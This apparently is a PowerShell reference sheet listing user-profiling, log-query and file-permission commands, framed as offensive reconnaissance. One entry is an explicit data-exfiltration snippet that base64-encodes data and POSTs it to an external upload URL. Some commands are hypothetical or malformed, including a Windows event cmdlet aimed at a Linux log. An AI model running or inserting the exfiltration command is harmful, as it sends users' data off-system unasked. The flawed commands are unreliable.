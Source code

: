 ## User Profiling - List User Files
**Script/Command:**
```
Get-ChildItem -Path /home/andrewblyth
```
**Description:** Lists files and directories in a user’s home directory for access profiling.
**Example:** Enumerate files in `/home/andrewblyth`.

## User Profiling - Get Installed Software
**Script/Command:**
```
Get-InstalledSoftware -User "andrewblyth"
```
**Description:** Retrieves a list of installed software for a specific user (hypothetical cmdlet).
**Example:** List software installed for `andrewblyth`.

## User Profiling - Get Recent Login Events
**Script/Command:**
```
Get-WinEvent -LogName auth.log -FilterXPath "*[System[(EventID=1) and EventData[Data[@Name='user']='$andrewblyth']]]" -MaxEvents 10
```
**Description:** Queries authentication logs for recent login events of a specific user (adapted for Linux logs).
**Example:** Retrieve the last 10 login events for `andrewblyth` from `auth.log`.

## User Profiling - Data Exfiltration (Hypothetical)
**Script/Command:**
```
$data = "SensitiveData"
$encodedData = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($data))
Invoke-WebRequest -Uri "https://snowcapcyber.com/upload.php" -Method POST -Body $encodedData
```
**Description:** Encodes and sends user-related data (e.g., `SensitiveData`) to an external server for exfiltration.
**Example:** Exfiltrate the string `SensitiveData` to `https://snowcapcyber.com/upload.php`.

## File Permissions - View Permissions
**Script/Command:**
```
Get-Acl /path/to/file.txt
```
**Description:** Retrieves the Access Control List (ACL) for a file, showing ownership and permissions.
**Example:** View permissions for `/home/user/file.txt`.

## File Permissions - Grant Permissions
**Script/Command:**
```
$filePath = "/path/to/file.txt"
$user = "andrewblyth"
$rule = New-Object System.Security.AccessControl.FileSystemAccessRule($user, "Read, Write", "Allow")
(Get-Acl $filePath).AddAccessRule($rule) | Set-Acl $filePath
```
**Description:** Grants read and write permissions to a specified user on a file.
**Example:** Grant `andrewblyth` read/write access to `/home/user/file.txt`.
